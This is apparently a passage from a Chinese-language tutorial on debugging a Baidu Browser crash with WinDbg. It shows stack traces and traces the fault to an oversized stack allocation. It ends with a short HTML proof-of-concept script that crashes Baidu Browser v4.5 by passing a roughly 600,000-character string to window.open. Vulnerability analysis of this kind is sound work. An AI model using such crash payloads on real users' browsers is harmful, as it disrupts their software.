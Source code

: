 然后我们可以很开心的看到：

```
0:000> ~*kvn

.  0  Id: 51fc.a978 Suspend: 0 Teb: 7efdd000 Unfrozen
 # ChildEBP RetAddr  Args to Child              
00 0061bbe0 76fa149d 000002a8 00000000 00000000 ntdll!NtWaitForSingleObject+0x15 (FPO: [3,0,0])
01 0061bc4c 77031194 000002a8 ffffffff 00000000 KERNELBASE!WaitForSingleObjectEx+0x98 (FPO: [SEH])
02 0061bc64 77031148 000002a8 ffffffff 00000000 kernel32!WaitForSingleObjectExImplementation+0x75 (FPO: [3,0,4])
03 0061bc78 001056c7 000002a8 ffffffff 006e9948 kernel32!WaitForSingleObject+0x12 (FPO: [2,0,0])
WARNING: Stack unwind information not available. Following frames may be wrong.
04 0061dd78 00105467 ac68c25f 0010542d 7710030c baidubrowser+0x56c7
05 0061dda0 7706fffb 0061de58 ac7abd84 00000000 baidubrowser+0x5467
06 0061de28 77a674ff 0061de58 77a673dc 00000000 kernel32!UnhandledExceptionFilter+0x127 (FPO: [SEH])
07 0061de30 77a673dc 00000000 0061ff64 77a1c550 ntdll!__RtlUserThreadStart+0x62 (FPO: [SEH])
08 0061de44 77a67281 00000000 00000000 00000000 ntdll!_EH4_CallFilterFunc+0x12 (FPO: [Uses EBP] [0,0,4])
09 0061de6c 77a4b499 fffffffe 0061ff54 0061dfa8 ntdll!_except_handler4+0x8e (FPO: [4,5,4])
0a 0061de90 77a4b46b 0061df58 0061ff54 0061dfa8 ntdll!ExecuteHandler2+0x26 (FPO: [Uses EBP] [5,3,1])
0b 0061deb4 77a4b40e 0061df58 0061ff54 0061dfa8 ntdll!ExecuteHandler+0x24 (FPO: [5,0,3])
0c 0061df40 77a00133 0061df58 0061dfa8 0061df58 ntdll!RtlDispatchException+0x127 (FPO: [2,25,4])
0d 0061df40 033fbda7 0061df58 0061dfa8 0061df58 ntdll!KiUserExceptionDispatcher+0xf (FPO: [2,0,0]) (CONTEXT @ 0061dfa8)
0e 0061e2a8 045b7a85 0061e3e4 0061e634 00000001 browsercore+0xdbda7
0f 0061e2c4 0337100c 0061e3e4 0061e634 0061e7f4 browsercore+0x1297a85

```

我们看看它的上层函数做了什么：

```
0:000> uf 045b7a85
No code found, aborting

```

居然显示没有代码，看来事后调试已经满足不了我们了，不过既然跑到了`_alloca_probe`，那真相就只有一个了！对，在栈上分配的东西太大了，比栈还大，比栈还牛逼，于是栈不干了，结果就抛个异常罢工了。

这只是一个小演示而已，反正我们没符号，反正我们没代码，但是我们有 PoC，我们需要的是实时调试，下面进入正题。

## 0x03 实时调试

* * *

下面使用的目标程序是百度浏览器 v4.5，由于我们的 poc 简单粗暴，为了防止代码一加载就崩，我们在它崩溃前加一个 alert(1)，给我们和 windbg 一个心理准备，使得 poc 变成下面这样：

```
<script>
var s="A";
var i=1;
for(i=1;i<599559;i++)
s+="A";
alert(1);
window.open(s);
</script>

```
